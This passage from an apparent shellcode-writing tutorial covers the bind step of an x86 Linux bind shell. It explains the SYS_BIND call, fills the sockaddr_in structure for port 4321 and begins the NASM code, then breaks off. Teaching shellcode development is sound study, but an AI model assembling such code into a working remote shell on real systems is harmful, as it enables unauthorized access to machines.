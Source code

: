 ### Binding the socket to address/port with SYS_BIND

Now that we have created a socket, we need to bind it with address/port. We can use SYS_BIND for this purpose. The system call number for SYS_BIND is defined in the below header file.
```
[/usr/include/linux/net.h]
[#define SYS_BIND 2] [sys_bind(2)]
```

The man page entry for Bind is as follows:
```
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);	
```

Bind takes three arguments and among them ```struct sockaddr *addr``` is  the one that we need to pay more attention. The definition for ```sockaddr``` can be found in ```[/usr/include/linux/in.h]``` header file.
```
/* Structure describing an Internet (IP) socket address. */
#define __SOCK_SIZE__	16		/* sizeof(struct sockaddr)	*/
struct sockaddr_in {
	  __kernel_sa_family_t	sin_family;		/* Address family		*/
	  __be16		sin_port;		/* Port number			*/
		struct in_addr	sin_addr;		/* Internet address		*/

		/* Pad to size of `struct sockaddr'. */
		unsigned char		__pad[__SOCK_SIZE__ - sizeof(short int) -
							sizeof(unsigned short int) - sizeof(struct in_addr)];
		};
```

We will define this structure first as we require a pointer to it. Lets look at the different members of the structure.
```
sin_family = 2		; AF_INET
```
The port number should be converted to network endian. We can use python for that. I am using port 4321 for my bind shell.
```
$ python -c 'import socket as s;port = s.htons(4321);print "port 4321 => ",port,hex(port)'
port 4321 =>  57616 0xe110
```
The network endian equivalent of port 4321 is 57616 and corresponding hex value 0xe110.
```
sin_port = 0xe110
```

The next one ```sin_addr``` our desired value is defined in ```/usr/include/linux/in.h```.
```
#define INADDR_ANY ((unsigned long int) 0x00000000) ;
/* Address to accept any incoming messages. */

sin_addr = 0
```
With the above information, our call to bind should be like this.
```
bind(sockfd, *ptr->[2, 57616, 0], 16)
```
So the assembly code becomes:
```nasm
		; EAX = 0x66 = sys_socketcall()
		; EBX = 0x2  = sys_bind()
		; ECX = pointer to arguments of sys_bind

		; EAX has the socketfd, we need to save it somewhere for later use.

		pop ebx				; EBX = 2
```